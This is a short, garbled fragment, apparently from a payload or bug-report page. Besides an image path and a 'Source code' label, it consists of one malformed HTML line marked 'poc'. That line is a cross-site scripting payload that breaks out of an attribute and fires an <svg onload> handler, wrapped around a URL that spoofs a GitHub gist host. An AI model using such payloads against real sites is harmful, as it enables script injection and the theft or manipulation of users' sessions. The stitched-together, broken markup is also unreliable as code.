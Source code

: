 <href src=https://"><svg/onload=confirm(1)>"@x.ygist.githubusercontent.com/hacker1337itme/e78333173503f2c37c1ae123a9a43b2d/raw/1bcae302f42df643eec817a32529aa082630e098/gistfile1.php> poc</`la`a>

